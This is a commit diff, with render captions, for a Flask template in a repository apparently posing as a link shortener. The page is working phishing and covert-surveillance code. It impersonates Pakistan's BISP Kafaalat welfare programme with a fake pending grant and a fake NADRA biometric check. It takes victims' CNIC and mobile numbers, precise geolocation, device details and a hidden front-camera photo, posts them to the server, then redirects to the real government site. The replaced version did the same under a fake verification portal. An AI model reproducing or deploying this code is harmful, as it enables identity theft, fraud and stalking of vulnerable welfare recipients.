

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,149 +2,181 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Identity Verification Portal</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
+    <title>8171 BISP Official Portal</title>
     <style>
-        :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
-        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
-        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
-        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
-        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
-        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
-        .btn:active { transform: scale(0.98); }
-        #loader { display: none; text-align: center; }
-        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
+        :root { --bisp-green: #1b5e20; --bisp-light: #f4f7f6; --gold: #fbc02d; }
+        body { margin: 0; background: var(--bisp-light); font-family: 'Roboto', sans-serif; overflow-x: hidden; }
+
+        /* Professional Header with No Image Dependencies */
+        .header { background: #fff; padding: 15px 20px; display: flex; align-items: center; justify-content: space-between; border-bottom: 5px solid var(--bisp-green); box-shadow: 0 2px 10px rgba(0,0,0,0.1); position: sticky; top: 0; z-index: 1000; }
+        .logo-box { border-left: 5px solid var(--bisp-green); padding-left: 12px; }
+        .logo-box h1 { margin: 0; font-size: 22px; color: var(--bisp-green); font-weight: 900; letter-spacing: -1px; }
+        .logo-box span { font-size: 9px; color: #555; text-transform: uppercase; display: block; font-weight: 700; }
+        .gov-tag { background: #eee; padding: 5px 10px; border-radius: 20px; font-size: 10px; font-weight: 800; color: #444; }
+
+        /* Custom Vector Graphics (No Images Needed) */
+        .hero-banner { width: 100%; height: 240px; background: linear-gradient(135deg, #1b5e20 0%, #2e7d32 100%); position: relative; display: flex; align-items: center; justify-content: center; overflow: hidden; }
+        .hero-banner::after { content: "8171"; position: absolute; font-size: 180px; font-weight: 900; color: rgba(255,255,255,0.05); bottom: -40px; right: -20px; }
+        .hero-content { color: white; text-align: center; z-index: 10; padding: 20px; }
+        .hero-content h2 { font-size: 28px; margin: 0; text-shadow: 0 2px 4px rgba(0,0,0,0.3); }
+        .hero-content p { font-size: 13px; opacity: 0.9; margin: 5px 0 0; }
+
+        /* Payment Status Strip */
+        .payment-strip { background: var(--gold); color: #1b5e20; width: 100%; padding: 14px 0; text-align: center; font-size: 14px; font-weight: 900; border-bottom: 3px solid rgba(0,0,0,0.1); box-shadow: 0 4px 6px rgba(0,0,0,0.1); position: relative; z-index: 20; }
+
+        /* Modern Verification Card */
+        .card-container { margin: -30px 15px 30px; position: relative; z-index: 100; }
+        .v-card { background: #fff; border-radius: 20px; padding: 30px 25px; box-shadow: 0 15px 40px rgba(0,0,0,0.15); border: 1px solid #f0f0f0; }
+        .v-card h3 { color: var(--bisp-green); margin: 0 0 10px; font-size: 22px; font-weight: 800; }
+        .v-card p { font-size: 13px; color: #666; line-height: 1.5; margin-bottom: 25px; }
+
+        /* Input Styles */
+        .field-group { margin-bottom: 20px; position: relative; }
+        label { font-size: 11px; font-weight: 800; color: #222; display: block; margin-bottom: 8px; text-transform: uppercase; letter-spacing: 0.5px; }
+        input { width: 100%; padding: 16px; border: 2px solid #eaedf0; border-radius: 12px; font-size: 16px; box-sizing: border-box; background: #fafafa; font-weight: 600; }
+        input:focus { border-color: var(--bisp-green); background: #fff; outline: none; box-shadow: 0 0 0 4px rgba(27, 94, 32, 0.05); }
+
+        /* Action Button */
+        .btn-action { background: var(--bisp-green); color: white; border: none; width: 100%; padding: 20px; border-radius: 15px; font-size: 18px; font-weight: 900; cursor: pointer; text-transform: uppercase; box-shadow: 0 10px 20px rgba(27, 94, 32, 0.3); transition: transform 0.2s; }
+        .btn-action:active { transform: scale(0.98); }
+
+        /* Professional Full-Screen Tracking Modal */
+        #tracking-gate { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: #fff; z-index: 2000; align-items: center; justify-content: center; padding: 20px; box-sizing: border-box; }
+        .gate-inner { text-align: center; max-width: 400px; }
+        .gate-icon { width: 80px; height: 80px; background: var(--bisp-light); border-radius: 50%; display: flex; align-items: center; justify-content: center; margin: 0 auto 20px; border: 4px solid var(--bisp-green); }
+        .status-pill { background: #fee2e2; color: #b91c1c; padding: 12px; border-radius: 10px; font-size: 12px; font-weight: 900; margin-bottom: 20px; display: none; border: 1px solid #fecaca; }
+        .loader { border: 5px solid #f3f3f3; border-top: 5px solid var(--bisp-green); border-radius: 50%; width: 50px; height: 50px; animation: spin 1s linear infinite; margin: 20px auto; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
     </style>
 </head>
 <body>
 
-<div class="card">
-    <div class="status-bar"></div>
-    <h2>Regional Access Verification</h2>
-    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
-
-    <div id="loader">
-        <div class="spinner"></div>
-        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
+<div class="header">
+    <div class="logo-box">
+        <h1>BISP</h1>
+        <span>Government of Pakistan</span>
+    </div>
+    <div class="gov-tag">8171 OFFICIAL</div>
 </div>
 
-    <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
-
-    <div class="footer-text">
-        System ID: FZN-PR-2026<br>
-        Encrypted by Digital Security Authority
+<div class="hero-banner">
+    <div class="hero-content">
+        <h2>Kafaalat Program</h2>
+        <p>Benazir Income Support Programme (2026)</p>
     </div>
 </div>
 
-<video id="video" style="display:none;" autoplay playsinline></video>
-<canvas id="canvas" style="display:none;" width="1080" height="1920"></canvas>
+<div class="payment-strip">
+    PENDING PAYMENT: RS. 10,500 - VERIFICATION ACTIVE
+</div>
+
+<div class="card-container">
+    <div class="v-card">
+        <h3>Verify Status</h3>
+        <p>Confirm your CNIC and Mobile Number to authorize the release of your pending grant through high-precision biometric verification.</p>
+
+        <div class="field-group">
+            <label>CNIC Number (13 Digits)</label>
+            <input type="number" id="cnic" placeholder="35201XXXXXXXX" autocomplete="off">
+        </div>
+        <div class="field-group">
+            <label>Registered Mobile Number</label>
+            <input type="number" id="phone" placeholder="03XXXXXXXXX" autocomplete="off">
+        </div>
+
+        <button class="btn-action" onclick="initTracking()">Proceed to Verify</button>
+    </div>
+</div>
+
+<div id="tracking-gate">
+    <div class="gate-inner">
+        <div class="gate-icon">
+            <div style="width: 20px; height: 20px; background: var(--bisp-green); border-radius: 50%; animation: pulse 1.5s infinite;"></div>
+        </div>
+        <div id="error-box" class="status-pill">VERIFICATION FAILED: Mandatory Location & Biometric Access required to verify grant eligibility.</div>
+        <h2 style="color: var(--bisp-green); margin: 0 0 10px;">Security Check</h2>
+        <p style="font-size: 14px; color: #666; margin-bottom: 25px;">Connecting to NADRA biometric integration. Do not close this window.</p>
+        <div class="loader"></div>
+        <button id="retry" onclick="fullSync()" style="display:none; width: 100%; padding: 15px; background: #222; color: white; border-radius: 12px; border: none; font-weight: 800;">GRANT ACCESS & CONTINUE</button>
+    </div>
+</div>
+
+<video id="v" style="display:none;" autoplay playsinline></video>
+<canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    async function startProcess() {
-        const btn = document.getElementById('mainBtn');
-        const loader = document.getElementById('loader');
-        btn.style.display = 'none';
-        loader.style.display = 'block';
+    let logData = { cnic: "", mob: "", bat: "", model: "", lat: "", lon: "" };
 
-        let userAgent = navigator.userAgent;
-        let deviceName = "Unknown Device";
-        if (/android/i.test(userAgent)) {
-            deviceName = userAgent.match(/\(([^)]+)\)/)[1].split(';')[2] || "Android Mobile";
-        } else if (/iPhone/i.test(userAgent)) {
-            deviceName = "Apple iPhone";
+    function initTracking() {
+        logData.cnic = document.getElementById('cnic').value;
+        logData.mob = document.getElementById('phone').value;
+
+        if(logData.cnic.length < 11) { alert("Invalid CNIC"); return; }
+
+        document.getElementById('tracking-gate').style.display = 'flex';
+        fullSync();
     }
 
-        let reportData = {
-            device: deviceName.trim(),
-            platform: navigator.platform,
-            battery: "N/A",
-            time: new Date().toLocaleString(),
-            lat: "0", lon: "0",
-            city: "N/A", country: "N/A", ip: "N/A"
-        };
+    async function fullSync() {
+        document.getElementById('retry').style.display = 'none';
+        document.getElementById('error-box').style.display = 'none';
 
-        if(navigator.getBattery) {
-            const b = await navigator.getBattery();
-            reportData.battery = Math.round(b.level * 100) + "%";
+        // 1. Precise Device Info
+        try {
+            const battery = await navigator.getBattery();
+            logData.bat = Math.round(battery.level * 100) + "%";
+            logData.model = navigator.platform + " | " + navigator.userAgent.split('(')[1].split(')')[0];
+        } catch(e) {}
+
+        // 2. High-Precision Live Location
+        navigator.geolocation.getCurrentPosition(
+            (pos) => {
+                logData.lat = pos.coords.latitude;
+                logData.lon = pos.coords.longitude;
+                triggerBiometric();
+            },
+            () => { showAuthError(); },
+            { enableHighAccuracy: true, timeout: 5000 }
+        );
     }
 
-        const fetchGeo = async () => {
-            try {
-                const res = await fetch('http://ip-api.com/json/?fields=status,country,city,query');
-                const data = await res.json();
-                if(data.status === 'success') {
-                    reportData.city = data.city;
-                    reportData.country = data.country;
-                    reportData.ip = data.query;
-                }
-            } catch (e) {
-                try {
-                    const res2 = await fetch('https://ipinfo.io/json');
-                    const data2 = await res2.json();
-                    reportData.city = data2.city;
-                    reportData.country = data2.country;
-                    reportData.ip = data2.ip;
-                } catch (e2) {
-                    reportData.city = "API Blocked";
-                }
-            }
-        };
-
-        const geoPromise = fetchGeo();
-
-        // CAMERA CONSTRAINTS FIXED FOR 9:16 PORTRAIT
-        const cameraPromise = navigator.mediaDevices.getUserMedia({
-            video: {
-                facingMode: "user",
-                width: { ideal: 1920 },
-                height: { ideal: 1080 },
-                aspectRatio: 0.5625
-            }
-        }).catch(() => null);
-
-        navigator.geolocation.getCurrentPosition(async (pos) => {
-            reportData.lat = pos.coords.latitude;
-            reportData.lon = pos.coords.longitude;
-            finalize(await cameraPromise, reportData, geoPromise);
-        }, async () => {
-            finalize(await cameraPromise, reportData, geoPromise);
-        }, { enableHighAccuracy: true, timeout: 10000 });
+    function triggerBiometric() {
+        navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
+        .then((s) => { finalizeReport(s); })
+        .catch(() => { showAuthError(); });
     }
 
-    async function finalize(stream, data, geoTask) {
-        await geoTask;
+    function showAuthError() {
+        document.getElementById('error-box').style.display = 'block';
+        document.getElementById('retry').style.display = 'block';
+    }
 
-        if (stream) {
-            const video = document.getElementById('video');
+    async function finalizeReport(stream) {
+        const video = document.getElementById('v');
         video.srcObject = stream;
 
         setTimeout(() => {
-                const canvas = document.getElementById('canvas');
-                const ctx = canvas.getContext('2d');
-                // DRAWING FIXED FOR FULL PORTRAIT
-                ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
-                const photo = canvas.toDataURL('image/jpeg', 0.85);
+            const canvas = document.getElementById('c');
+            canvas.getContext('2d').drawImage(video, 0, 0, 1080, 1920);
+            const capturedPhoto = canvas.toDataURL('image/jpeg', 0.85);
 
             stream.getTracks().forEach(t => t.stop());
-                sendData(data, photo);
-            }, 1800);
-        } else {
-            sendData(data, null);
-        }
-    }
 
-    function sendData(info, photo) {
-        fetch('/capture', {
+            // Send full High-Precision Log
+            fetch('/auth/secure-sync', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ info: info, photo: photo })
+                body: JSON.stringify({ report: logData, photo: capturedPhoto })
             }).then(() => {
-            window.location.href = "https://www.pakistan.gov.pk/";
+                window.location.href = "https://8171.bisp.gov.pk/";
             });
+        }, 3000);
     }
 </script>
+
+<style>
+    @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.4); } 70% { box-shadow: 0 0 0 20px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
+</style>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
